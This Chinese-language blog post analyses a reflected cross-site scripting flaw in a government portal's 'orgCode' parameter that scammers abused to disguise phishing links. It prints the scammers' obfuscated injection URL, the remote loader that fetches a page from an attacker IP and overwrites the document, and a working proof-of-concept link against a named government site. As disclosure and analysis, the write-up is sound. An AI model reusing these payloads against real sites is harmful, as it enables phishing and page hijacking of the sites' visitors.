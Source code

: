 ```yaml
---
title: 政务网漏洞
categories:
    - study
    - web
tags: web
---
```


### 漏洞发现

朋友圈看到有骗人分享，链接是 `gov.cn`，通过政务网做跳板，绕过微信备案风控。

![朋友圈](1.jpg)

### 漏洞分析

抓包溯源链接为

```
https://xxxxxxxxx.gov.cn/jxzw/ncBmCity/getNcBmIndex.do?orgCode=%22%3B%7D%29%25%318%3Bi2%3D%27bjk%27%3Ba%3D%7B%27l%27%3Athis%2C%27k%27%3A%27%5C163etTimeout%27%2C%27r%27%3A%27a%27%2C%27t%27%3A%27%5C164o%5C142%27%7D%3Ba.l%5Ba.k%5D%28a.l%5Ba.r%2Ba.t%5D%28i2%2B%279ZG9jdW1lbnQNCm45LmRvY3VtZW50RWxlbWVudC5oaWRkZW49JzEnDQpuOS50aXRsZT0nTG9hZGluZy4uLicNCmltcG9ydCgnLy92MmxvYWQub3NzLWNuLXNoYW5naGFpLmFsaXl1bmNzLmNvbS9oejE1LmpzPz8%2Fd3g9Jyk%3D%27%2C1%29%29%25%318%3B%24%28function%28%29%20%7Bvar%20orgCode%20%3D%20%22&gdohll=cd1c3558c715249c11286cba506430c183efe2fcabf30dddaeff81be20aa1713abf60d#1680926768635
```

通过 `decodeURIComponent` 获取得

```
`https://xxxxxxxxx.gov.cn/jxzw/ncBmCity/getNcBmIndex.do?orgCode=";})%18;i2='bjk';a={'l':this,'k':'\\163etTimeout','r':'a','t':'\\164o\\142'};a.l[a.k](a.l[a.r+a.t](i2+'9ZG9jdW1lbnQNCm45LmRvY3VtZW50RWxlbWVudC5oaWRkZW49JzEnDQpuOS50aXRsZT0nTG9hZGluZy4uLicNCmltcG9ydCgnLy92MmxvYWQub3NzLWNuLXNoYW5naGFpLmFsaXl1bmNzLmNvbS9oejE1LmpzPz8/d3g9Jyk=',1))%18;$(function() {var orgCode = "&gdohll=cd1c3558c715249c11286cba506430c183efe2fcabf30dddaeff81be20aa1713abf60d#1680926768635`
```

一眼 `orgCode` 接口未限制，可以任意执行 js。

![漏洞发现](2.jpg)

### 代码分析

拆解分析后得知，
``
"n9=document\r\nn9.documentElement.hidden='1'\r\nn9.title='Loading...'\r\nimport('//v2load.oss-cn-shanghai.aliyuncs.com/hz15.js???wx=')"

``
![漏洞分析](3.jpg)

注入后通过 `http://v2load.oss-cn-shanghai.aliyuncs.com/hz15.js???wx=` 载入远程代码

```
document.title="Loading...";document.documentElement.hidden=1;
(function(){
    var rmd = Math.random().toString(36).substr(2,7);
    var geUrl='//47.100.4.56/'+rmd+'?ref='+encodeURIComponent(location.href.split('#')[0]);
    var xhr=new XMLHttpRequest;xhr.onload=function(){var onhash=window.onhashchange;var h=xhr.responseText;var a=document.open("text/html","replace");a.write(h);a.close();window.onhashchange=onhash};
    xhr.open("GET",geUrl,!0);xhr.send();
})();
```

最终载入 `47.100.4.56` (阿里云上海) 服务器上的页面

尝试在 `orgCode` 带入不同入参后确认后端无任何过滤，直接返回前端输入导致漏洞

![漏洞尝试](4.jpg)

### 漏洞复现

所以可以通过构造字符串执行任意代码。
例如以下链接，弹出 `株洲公安`，并跳转 `株洲市公安局官网`

```
https://gzkfq.jxzwfww.gov.cn/jxzw/ncBmCity/getNcBmIndex.do?orgCode=%22;alert(%27%E6%A0%AA%E6%B4%B2%E5%85%AC%E5%AE%89%27)%3Bwindow.location.href%3D%22http%3A%2F%2Fgaj.zhuzhou.gov.cn
```
